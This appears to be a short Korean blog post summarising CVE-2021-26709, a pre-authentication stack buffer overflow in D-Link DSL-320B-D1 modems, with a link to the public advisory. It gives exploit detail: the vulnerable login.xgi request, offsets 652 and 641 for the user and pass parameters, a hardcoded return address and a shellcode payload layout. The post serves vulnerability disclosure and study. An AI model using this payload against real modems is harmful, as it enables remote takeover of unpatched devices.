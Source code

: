 ```yaml
---
title: "[하루한줄] CVE-2021-26709: D-Link DSL-320B-D1 Pre-Auth Buffer Overflow"
author: insu
tags: [insu, cve, d-link, bof]
categories: [1day1line]
date: 2021-04-11 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[D-Link DSL-320B-D1 Pre-Authentication Buffer Overflow](https://packetstormsecurity.com/files/162133/CVE-2021-26709_advisory.txt)

## Target

- DSL-320B-D1, EU_1.25 and lower

## Explain
ADSL 모뎀, DSL-320b-D1, EU_1.25 이하의 버전에서 인증되지 않은 사용자가 원격에서 디바이스를 탈취할 수 있는 Stack Buffer Overflow 취약점이 발견되었습니다.

취약점은 로그인을 담당하는 `login.xgi`에서 `user`와 `pass` 인자를 통해 발생합니다.

```
GET /login.xgi?user=" + payload + "&pass=abcde HTTP/1.1\\nHost: " +
host + "\\n\\n"
```

`user` 파라미터를 사용해 취약점을 악용하기 위해서 구성되는 페이로드는 다음과 같습니다.

```
OFFSET = 652
ADDR = 0x7ffe8ab0

payload = "A"*OFFSET
payload += pack(">I", ADDR)
payload += shellcode
```

반면에 `pass` 파라미터는 오프셋으로 641을 사용합니다. 페이로드는 GET request에서 파라미터로 전달되어야 하며 ROP를 사용하면 하드 코딩된 주소를 사용하지 않고 exploit이 가능합니다.

